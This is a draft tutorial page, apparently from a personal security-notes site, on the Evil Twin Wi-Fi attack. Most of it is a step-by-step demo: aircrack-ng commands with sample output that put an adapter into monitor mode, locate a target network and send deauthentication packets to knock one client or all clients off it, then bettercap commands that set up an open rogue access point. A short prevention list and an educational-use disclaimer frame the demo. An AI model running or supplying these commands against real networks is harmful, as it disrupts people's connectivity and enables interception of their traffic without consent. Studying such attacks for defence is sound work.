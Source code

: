 ```yaml
---
title: "Evil Twin - Draft"
weight: 500
date: 2024-06-15T01:47:46+07:00
---
```


# Evil Twin Attack

- A type of MitM attack
- Description: The attacker sets up a rogue Wi-Fi access point that mimics a legitimate network. Devices connect to it, allowing the attacker to intercept all traffic
- Key Characteristics:
    - The rogue network often has a similar name to the real network (e.g., "FreeWiFi")
    - Victims unknowingly connect to the attacker’s network
- Prevention:
    - Educate users to verify SSIDs before connecting
    - Enable **Mutual Authentication** on enterprise Wi-Fi setups

## Demo

{{<hint danger>}}
**DISCLAIMER**: This demo is for educational purposes only. The techniques should only be tested on systems you own or have explicit permission to analyze. Misuse of this information is unethical, may violate the law, and could lead to serious consequences. The author takes no responsibility for any damages or misuse arising from this content
{{</hint>}}

### Disconnect user from wifi

```sh
# Install the Aircrack-ng suite, which includes airmon-ng
sudo apt install aircrack-ng

# Check wireless interface
iwconfig
# -> E.g output
lo        no wireless extensions.
enp4s0    no wireless extensions.
wlo1      IEEE 802.11  ESSID:"A14-01"  
          Mode:Managed  Frequency:2.417 GHz  Access Point: CC:71:90:62:9E:98   
          Bit Rate=130 Mb/s   Tx-Power=22 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=62/70  Signal level=-48 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:203   Missed beacon:0
docker0   no wireless extensions.
# -> Your wireless interface is wlo1

# Disconnect the wireless adapter from managing a network
sudo airmon-ng check kill

# Enable monitor mode on your wireless adapter
sudo airmon-ng start wlo1

# Verify
iwconfig
# -> E.g output
lo        no wireless extensions.
enp4s0    no wireless extensions.
docker0   no wireless extensions.
wlo1mon   IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
# -> Your wireless adapter with monitor mode is now wlo1mon

# Start capture packets
sudo airodump-ng wlo1mon

# Find the channel of wifi
sudo aireplay-ng --test wlo1mon
# E.g output
12:26:19  Trying broadcast probe requests...
12:26:21  No Answer...
12:26:21  Found 4 APs
12:26:21  Trying directed probe requests...
12:26:21  CC:71:90:62:9E:98 - channel: 2 - 'A14-01'
12:26:27   0/30:   0%
12:26:27  30:4F:75:8F:7F:28 - channel: 2 - 'Dinh Bao'
12:26:33   0/30:   0%
12:26:34  C0:B5:D7:89:36:70 - channel: 8 - 'Do Hai'
12:26:40   0/30:   0%
12:26:40  E8:43:68:6A:3B:88 - channel: 3 - 'Hoang Linh'
12:26:46   0/30:   0%
# -> We will taget 'A14-01' wifi, its channel is 2

# Stop the process capturing packets and start capture packets only on channel 2
sudo airodump-ng --channel 2 wlo1mon

# Deauthenticate target device from wifi by sending deauth packets
sudo aireplay-ng --deauth 100 -a [BSSID] -c [Client_MAC] wlo1mon
# E.g
sudo aireplay-ng --deauth 100 -a CC:71:90:62:9E:98 -c F2:2A:23:9E:54:E2 wlo1mon
# E.g output
12:24:18  Waiting for beacon frame (BSSID: CC:71:90:62:9E:98) on channel 2
12:24:18  Sending 64 directed DeAuth (code 7). STMAC: [F2:2A:23:9E:54:E2] [ 0|42 ACKs]
12:24:32  Sending 64 directed DeAuth (code 7). STMAC: [F2:2A:23:9E:54:E2] [ 0|326 ACKs]
12:24:33  Sending 64 directed DeAuth (code 7). STMAC: [F2:2A:23:9E:54:E2] [ 1|253 ACKs]
# Or omit to target all devices
sudo aireplay-ng --deauth 100 -a CC:71:90:62:9E:98 wlo1mon


```

- Stop capturing packets (exit monitor mode)
```sh
sudo airmon-ng stop wlo1mon
sudo systemctl restart NetworkManager
```

### Create the rogue access point

```sh
sudo apt update
# net-tools include netstat which is used inside bettercap
sudo apt install net-tools
sudo apt install bettercap


# Rogue access point
sudo bettercap -iface wlo1mon

# In bettercap:
set wifi.ap.ssid Banana
set wifi.ap.bssid DE:AD:BE:EF:DE:AD
set wifi.ap.channel 5
set wifi.ap.encryption false
wifi.recon on; wifi.ap

```

## References

- Bettercap: [WiFi](https://www.bettercap.org/modules/wifi/)
- Evilsocket: [Pwning WPA/WPA2 Networks With Bettercap and the PMKID Client-Less Attack](https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/) (Feb 13th, 2019)